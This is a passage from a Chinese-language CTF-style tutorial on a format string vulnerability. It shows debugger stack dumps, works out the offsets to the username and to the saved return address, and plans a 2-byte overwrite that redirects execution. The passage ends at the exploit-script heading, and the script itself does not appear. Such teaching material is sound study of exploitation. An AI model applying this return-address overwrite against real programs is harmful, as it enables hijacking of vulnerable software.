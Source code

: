 ```text
>1
...
```

此时栈的情况为

```text
─────────────────────────────────────────────────────────[ code:i386:x86-64 ]────
     0x400b1a                  call   0x400758
     0x400b1f                  lea    rdi, [rbp+0x10]
     0x400b23                  mov    eax, 0x0
 →   0x400b28                  call   0x400770
   ↳    0x400770                  jmp    QWORD PTR [rip+0x20184a]        # 0x601fc0
        0x400776                  xchg   ax, ax
        0x400778                  jmp    QWORD PTR [rip+0x20184a]        # 0x601fc8
        0x40077e                  xchg   ax, ax
────────────────────────────────────────────────────────────────────[ stack ]────
0x00007fffffffdb40│+0x00: 0x00007fffffffdb80  →  0x00007fffffffdc30  →  0x0000000000400eb0  →   push r15	 ← $rsp, $rbp
0x00007fffffffdb48│+0x08: 0x0000000000400d74  →   add rsp, 0x30
0x00007fffffffdb50│+0x10: "aaaaaaaa"	 ← $rdi
0x00007fffffffdb58│+0x18: 0x000000000000000a
0x00007fffffffdb60│+0x20: 0x7025702500000000
0x00007fffffffdb68│+0x28: "%p%p%p%p%p%p%p%pM\r@"
0x00007fffffffdb70│+0x30: "%p%p%p%pM\r@"
0x00007fffffffdb78│+0x38: 0x0000000000400d4d  →   cmp eax, 0x2
```

可以发现我们输入的用户名在栈上第三个位置，那么除去本身格式化字符串的位置，其偏移为为5+3=8。

#### 修改地址

我们再仔细观察下断点处栈的信息

```text
0x00007fffffffdb40│+0x00: 0x00007fffffffdb80  →  0x00007fffffffdc30  →  0x0000000000400eb0  →   push r15	 ← $rsp, $rbp
0x00007fffffffdb48│+0x08: 0x0000000000400d74  →   add rsp, 0x30
0x00007fffffffdb50│+0x10: "aaaaaaaa"	 ← $rdi
0x00007fffffffdb58│+0x18: 0x000000000000000a
0x00007fffffffdb60│+0x20: 0x7025702500000000
0x00007fffffffdb68│+0x28: "%p%p%p%p%p%p%p%pM\r@"
0x00007fffffffdb70│+0x30: "%p%p%p%pM\r@"
0x00007fffffffdb78│+0x38: 0x0000000000400d4d  →   cmp eax, 0x2
```

可以看到栈上第二个位置存储的就是该函数的返回地址(其实也就是调用showaccounth函数时执行push rip所存储的值)，在格式化字符串中的偏移为7。

与此同时栈上，第一个元素存储的也就是上一个函数的rbp。所以我们可以得到偏移0x00007fffffffdb80-0x00007fffffffdb48=0x38。继而如果我们知道了rbp的数值，就知道了函数返回地址的地址。

0x0000000000400d74与0x00000000004008A6只有低2字节不同，所以我们可以只修改0x00007fffffffdb48开始的2个字节。

#### 利用程序
